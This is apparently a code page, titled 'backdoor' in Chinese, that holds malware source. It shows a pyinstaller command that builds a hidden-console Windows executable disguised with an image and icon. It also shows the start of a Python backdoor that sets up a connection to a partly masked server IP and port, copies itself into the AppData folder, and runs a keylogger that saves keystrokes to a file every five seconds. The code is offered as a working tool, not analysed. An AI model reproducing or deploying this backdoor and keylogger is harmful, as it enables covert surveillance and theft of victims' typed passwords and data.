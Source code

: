 # 後門
```bash
$wine /home/kali/.wine/drive_c/python/Scripts/pyinstaller.exe client.py --onefile --noconsole --add-data "nttu.png;." --icon "nttu.ico"

```

## server.py程式碼
```python
#!/usr/bin/python
import subprocess
import socket
import json
import time
import os
import sys
import shutil
import base64
import requests
import ctypes
from mss import mss
import threading
import pynput.keyboard

ServerIP="210.240.#.#"先遮起來
ServerPort=54321
File_Location=os.environ["appdata"] + "\lol.exe"
ImageFile="\\nttu.png"
#kl_file = os.environ["appdata"]+"\lol.txt"
kl_file = 'lol.txt'
keys=""

def process_keys(key):
    global keys
    try:
        keys +=str(key.char)
    except AttributeError:
        if key==key.space:
            keys+=" "
        elif key==key.enter:
            key+="\n"

        elif key==key.up:
            exit

        elif key==key.down:
            exit
        elif key==key.left:
            exit
        elif key==key.right:
            exit
        else:
            keys=keys + " ["+str(key) + "] " 
def writekeys():
    global keys  
    with open(kl_file,"a") as klfile:
        klfile.write(keys)
        keys=""
        klfile.close()
        timer=threading.Timer(5,writekeys)
        timer.start()

```
